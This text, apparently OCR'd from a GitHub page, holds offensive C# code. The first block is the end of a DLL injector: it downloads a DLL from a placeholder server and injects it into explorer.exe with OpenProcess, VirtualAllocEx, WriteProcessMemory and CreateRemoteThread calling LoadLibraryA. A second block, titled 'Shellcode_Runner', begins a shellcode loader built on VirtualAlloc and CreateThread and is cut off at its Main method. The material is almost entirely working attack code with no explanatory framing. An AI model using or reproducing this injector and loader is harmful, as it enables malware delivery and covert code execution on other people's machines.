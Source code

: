 ```csharp
        static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
        public static extern IntPtr GetModuleHandle(string lpModuleName);

        static void Main(string[] args)
        {

        String dir =
Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
        String dllName = dir + "\\your.dll";

        WebClient wc = new WebClient();
        wc.DownloadFile("http://Your_Server/your.dll", dllName);

        Process[] expProc = Process.GetProcessesByName("explorer");
        int pid = expProc[0].Id;

        IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
        IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
        IntPtr outSize;
        Boolean res = WriteProcessMemory(hProcess, addr,
Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
        IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"),
"LoadLibraryA");
        IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib,
addr, 0, IntPtr.Zero);
        }
    }
}
```
<br>
<br>

## Shellcode_Runner

```csharp
using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Diagnostics;
using System.Runtime.InteropServices;

namespace ConsoleApp1
{

        class Program
        {
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint
flAllocationType, uint flProtect);

            [DllImport("kernel32.dll")]
            static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize,
IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

            [DllImport("kernel32.dll")]
            static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32
dwMilliseconds);

            static void Main(string[] args)
```